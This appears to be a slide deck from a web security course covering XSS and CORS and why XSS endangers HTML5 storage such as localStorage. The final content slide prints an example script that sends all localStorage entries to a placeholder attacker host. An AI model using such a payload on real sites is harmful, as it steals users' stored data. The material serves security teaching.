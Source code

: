 <!-- .slide: class="center" -->
# Day 3

--
# What Was covered

1. XSS
1. CORS

--
<!-- .slide: class="center" -->
# Why XSS is so important

--
# Why XSS Why
XSS is more important with HTML5 as people are using stuff like 

1. websql
1. localstorage
1. offline cache.

--
<!-- .slide: class="center" -->
# All these are 
# accessible 
# to one thing

--
<!-- .slide: class="center" -->
# JAVASCRIPT

--
<!-- .slide: class="center" -->
# XSS 
# enables 
# arbitrary 
## javascript

--
<!-- .slide: class="center" -->
# That's why XSS

--

# Need more reason's

1. Javascript can tamper with the data.
1. Javascript can add delete update data.
1. No httpOnly for webstorage/localstorage. Hence no protection

--

# Steal data via Javascript

<pre>
&lt;script>

for (i in localStorage) {

var d = new Image();

d.src = 'http://attacker.com/stealer.php?' + i+ '=' + localStorage.getItem(i);

} 

&lt;/script>
</pre>

--
# Day 3 course

